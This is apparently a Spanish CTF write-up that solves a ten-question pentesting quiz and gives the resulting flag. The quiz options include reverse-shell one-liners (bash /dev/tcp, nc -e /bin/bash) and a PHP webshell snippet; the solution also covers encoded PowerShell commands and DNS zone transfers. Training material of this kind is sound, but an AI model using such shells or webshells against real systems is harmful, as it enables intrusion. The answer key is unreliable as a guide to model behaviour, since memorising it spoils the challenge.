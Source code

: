 Consistía en resolver este test:
1. ¿Cuál de estas shells reversas funciona en Kali si estamos en escucha por el puerto tcp 5555  
	- a. nc localhost 5555  
	- b. nc -u 127.0.0.1 5555 -e /bin/bash
	- c. bash - c "bash -i >& /dev/tcp/127.0.0.1/5555 0>&1"  
	- d. Todas las anteriores

2.  ¿Qué código PHP sirve para ejecutar comandos en una webshell con el parámetro cmd?  
	- a. `<?php system($_GET['cmd']); ?>`
	- b. `<?php system($cmd); ?>`
	- c. `<?php $_GET['cmd'](); ?>`  
	- d. Ninguna de las anteriores

3. ¿Qué comando te monta un servidor web local en el puerto 6666 de la carpeta en la que estás?  
	- a. python3 -m SimpleHTTPServer 6666  
	- b. python3 -m http.server 6666  
	- c. nc -nvlp 6666 .  
	- d. Ninguno

4.  ¿Qué opción de nmap permite escanear puertos SCTP?  
	- a. -sY  
	- b. -sT  
	- c. -sU  
	- d. Los puertos SCTP no existen

5.  ¿Qué parametro se utiliza para usar una clave pública (id_rsa) en el login de un ssh?  
	- a. ssh -i id_rsa user@ip 
	- b. ssh -p id_rsa user@ip  
	- c. ssh -k id_rsa user@ip  
	- d. ssh -oHostKeyAlgorithms=id_rsa user@ip

6.  ¿Qué comando codificado 'ls' es válido para ejecutar en un powershell (powershell -enc XXXXXX)  
	- a. ls
	- b. bABzAAoA  
	- c. bHM= 	
	- d. En powershell no funciona ls

7. ¿Qué comando de los siguientes se usa para realizar una transferencia de zona de un DNS?  
	- a. dig zonetransfer.me TXT  
	- b. dig @nsztm2.digi.ninja zonetransfer.me trzn  
	- c. dig zonetransfer.me NS  
	- d. dig @nsztm2.digi.ninja zonetransfer.me axfr

8. bf 51 75 e9 20 70 72 65 67 75 6e 74 61 20 65 73 20 65 73 74 61 3f  
	- a. 1  
	- b. 8  
	- c. 31  
	- d. 38

9. Juegan blancas y hacen mate en X movimientos: 
	- a. 13
	- b. 15
	- c. 21
	- d. 23 

![](../Imágenes/Pasted%20image%2020241106232816.png)



10. ¿Cuál de estas flags está puesta para engañar a propósito? 
	- a.cibergal{cadababada}  
	- b.cibergal{aaaaaaaaab}  
	- c.cibergal{abcdabcdab}  
	- d.cibergal{abacadabaa}

La mayoría de preguntas son de conocimientos pero algunas peculiares:
6 https://stackoverflow.com/questions/53269099/powershell- base64-encoding-required

```bash
iconv -f ASCII -t UTF-16LE ls |base64 -w 0
```

Escribiendo ls en un fichero y usando el comando:

![](../Imágenes/Pasted%20image%2020241106233039.png)

8 Está en hexadecimal, 
```bash
echo "bf 51 75 e9 20 70 72 65 67 75 6e 74 61 20 65 73 20 65 73 74 61 3f" | tr - d ' '  | base16 - d  
�Qu� pregunta es esta?  
```
La respuesta es la d porque 8 en hexadecimal es: 

```bash
echo -n "8" | base16                 
38
```

9 Hay webs que te encuentran los movimientos que deben hacer

10 Inspeccionando el html se ve una pista fake:

![](../Imágenes/Pasted%20image%2020241106233704.png)

En resumen: 

cibergal{cabaabddcd}